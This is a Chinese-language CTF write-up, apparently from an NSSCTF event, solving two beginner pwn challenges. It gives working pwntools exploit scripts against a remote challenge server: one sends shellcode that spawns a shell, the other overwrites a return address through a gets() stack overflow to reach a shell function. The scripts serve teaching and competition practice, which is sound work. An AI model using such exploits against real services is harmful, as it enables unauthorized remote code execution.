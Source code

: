 



### shellcode？

很基础的shellcode，利用pwntools直接生成即可

先checksec一下，发现是amd64小端

![image-20221103150630710](https://nssctf.wdf.ink/img/yxy/image-20221103150630710.png)

直接贴exp：

```python
from pwn import *

sh = remote("1.14.71.254","xxxxx")

context(os='linux', arch='amd64')
payload = asm(shellcraft.sh())

sh.sendline(payload)
sh.interactive()
```



### 有手就行的栈溢出

栈溢出，附件直接拖IDA

![image-20221024234534082](https://nssctf.wdf.ink/img/yxy/image-20221024234534082.png)

存在 overflow() 函数，追踪进去发现是一个gets函数，存在栈溢出风险

![image-20221024234640339](https://nssctf.wdf.ink/img/yxy/image-20221024234640339.png)

v1为[rbp-20h]，故需要填充0x20长度的垃圾数据

找到 gift() 函数，发现你被骗了，根本没法getshell，而在 fun() 函数则可以

![image-20221024235006809](https://nssctf.wdf.ink/img/yxy/image-20221024235006809.png)

追踪 fun() 函数的地址：0x0000000000401257

![image-20221024235458263](https://nssctf.wdf.ink/img/yxy/image-20221024235458263.png)

贴个exp：

```python
from pwn import *

sh = remote('1.14.71.254',"xxxxx")
shell_addr = 0x0000000000401257

payload = b'a'*0x20 + p64(0) + p64(shell_addr)

sh.sendline(payload)
sh.interactive()
```
